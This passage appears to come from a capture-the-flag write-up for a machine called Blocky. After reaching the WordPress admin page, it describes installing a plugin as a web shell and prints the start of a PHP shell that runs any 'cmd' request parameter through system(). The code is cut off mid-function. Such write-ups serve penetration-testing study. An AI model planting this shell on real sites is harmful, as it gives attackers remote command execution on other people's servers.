 ![wp-admin](./blocky/wp-admin.png) 

From here, it is possible to install a new WordPress plugin as a shell. To do this, a basic PHP shell is needed:

- https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/WordPress/plugin-shell.php

```php
<?php
/*
 * Plugin Name: bubba
 */
if (isset($_REQUEST['cmd'])) {
  $cmd = $_REQUEST['cmd'];
  executeCommand($cmd);
  die();
}

function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
```